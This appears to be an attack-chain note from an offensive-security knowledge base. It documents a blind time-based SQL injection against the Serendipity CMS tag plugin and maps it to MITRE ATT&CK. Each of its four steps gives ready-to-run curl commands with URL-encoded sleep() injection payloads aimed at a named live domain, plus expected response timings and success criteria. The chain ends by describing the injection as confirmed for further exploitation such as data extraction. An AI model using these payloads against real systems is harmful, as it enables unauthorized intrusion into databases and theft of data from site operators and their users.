

---
tags:
  - sqli
  - blind-sqli
  - time-based
  - serendipity
  - mysql
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
  - MySQL
submitted: true
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Establish-Baseline-Response-Time-for-Tag-Endpoint]]'
  - '[[procedures/Inject-Time-Based-SQL-Payload-with-3-Second-Delay]]'
  - '[[procedures/Verify-Control-Payload-with-No-Delay]]'
  - '[[procedures/Scale-Delay-with-Longer-Sleep-Times]]'
step_count: 4
techniques:
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T03:46:14.911Z'
description: >-
  A multi-step attack chain exploiting a blind time-based SQL injection
  vulnerability in the Serendipity blog's tag plugin to confirm injection via
  response delays and demonstrate potential for data extraction or manipulation.
id: 3dabd73a-f0be-49e1-a1c3-3d555db8d26a
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# Blind Time-Based SQL Injection in Serendipity CMS Tag Plugin

Multi-stage attack chain demonstrating the exploitation of a blind time-based SQL injection in the Serendipity blog's tag plugin at /plugin/tag/, where unsanitized tag parameters allow SQL payload execution, confirmed via response time delays.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~30 seconds |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser or curl for HTTP requests

### Target Environment

- Serendipity CMS with freetag plugin
- MySQL backend
- Port 443 (HTTPS)

### Initial Access Requirements

- Public access to the web application
- No authentication required

## Detailed Attack Procedures

### Step 1: Establish Baseline Response Time
procedure: [[procedures/Establish-Baseline-Response-Time-for-Tag-Endpoint]]

**Objective**: Measure normal response time for a legitimate tag request to establish a baseline for detecting delays.

**Instructions**: Access the tag endpoint with a valid tag like 'peerj' using [[commands/curl-baseline-tag-request]]:

```bash
curl -s -w "%{time_total}s" "https://betterscience.org/plugin/tag/peerj" > /dev/null
```

**Expected Output**: Response time around 0.2-0.3 seconds.

**Success Indicators**:
- Normal page load without delays
- Baseline time noted (e.g., 0.28s)

### Step 2: Inject Time-Based SQL Payload with 3-Second Delay
procedure: [[procedures/Inject-Time-Based-SQL-Payload-with-3-Second-Delay]]

**Objective**: Introduce a SQL payload that triggers a 3-second sleep to confirm injection via increased response time.

**Instructions**: Send the URL-encoded payload using [[commands/curl-sqli-payload-sleep-3]]:

```bash
curl -s -w "%{time_total}s" "https://betterscience.org/plugin/tag/if(now()%3dsysdate()%2csleep(3)%2c0)/%2a'XOR(if(now()%3dsysdate()%2csleep(3)%2c0))OR'%22XOR(if(now()%3dsysdate()%2csleep(3)%2c0))OR%22%2f*" -H "Host: betterscience.org" -H "Cookie: [session cookies]" -H "Referer: https://betterscience.org/" -H "User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64)..." -H "X-Requested-With: XMLHttpRequest" > /dev/null
```

**Expected Output**: Response time delayed to approximately 3.276 seconds.

**Success Indicators**:
- Significant delay compared to baseline
- Consistent timing across repeats

### Step 3: Verify Control Payload with No Delay
procedure: [[procedures/Verify-Control-Payload-with-No-Delay]]

**Objective**: Test a non-delaying payload to rule out other causes of delays and confirm baseline behavior.

**Instructions**: Use the control payload with sleep(0) via [[commands/curl-sqli-payload-sleep-0]]:

```bash
curl -s -w "%{time_total}s" "https://betterscience.org/plugin/tag/if(now()%3dsysdate()%2csleep(0)%2c0)/%2a'XOR(if(now()%3dsysdate()%2csleep(0)%2c0))OR'%22XOR(if(now()%3dsysdate()%2csleep(0)%2c0))OR%22%2f*" -H "Host: betterscience.org" -H "Cookie: [session cookies]" -H "Referer: https://betterscience.org/" -H "User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64)..." -H "X-Requested-With: XMLHttpRequest" > /dev/null
```

**Expected Output**: Response time remains normal, around 0.28 seconds.

**Success Indicators**:
- No additional delay observed
- Payload accepted without errors

### Step 4: Scale Delay with Longer Sleep Times
procedure: [[procedures/Scale-Delay-with-Longer-Sleep-Times]]

**Objective**: Vary sleep durations to verify the injection's scalability and reliability for further exploitation like data exfiltration.

**Instructions**: Test with sleep(9) using [[commands/curl-sqli-payload-sleep-9]] and sleep(6) with [[commands/curl-sqli-payload-sleep-6]]:

```bash
curl -s -w "%{time_total}s" "https://betterscience.org/plugin/tag/if(now()%3dsysdate()%2csleep(9)%2c0)/%2a'XOR(if(now()%3dsysdate()%2csleep(9)%2c0))OR'%22XOR(if(now()%3dsysdate()%2csleep(9)%2c0))OR%22%2f*" -H "Host: betterscience.org" -H "Cookie: [session cookies]" -H "Referer: https://betterscience.org/" -H "User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64)..." -H "X-Requested-With: XMLHttpRequest" > /dev/null
```

```bash
curl -s -w "%{time_total}s" "https://betterscience.org/plugin/tag/if(now()%3dsysdate()%2csleep(6)%2c0)/%2a'XOR(if(now()%3dsysdate()%2csleep(6)%2c0))OR'%22XOR(if(now()%3dsysdate()%2csleep(6)%2c0))OR%22%2f*" -H "Host: betterscience.org" -H "Cookie: [session cookies]" -H "Referer: https://betterscience.org/" -H "User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64)..." -H "X-Requested-With: XMLHttpRequest" > /dev/null
```

**Expected Output**: Delays of ~9.3s for sleep(9) and ~6.3s for sleep(6).

**Success Indicators**:
- Proportional delays to sleep values
- Confirmation of exploitable blind SQLi

## Attack Chain Summary

### Key Achievements

1. Baseline established for normal responses
2. Injection confirmed via conditional delays
3. Control tests validate the technique
4. Scalability demonstrated for advanced exploitation

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Collection]]

---

*Last updated: 2023-10-01T00:00:00Z*
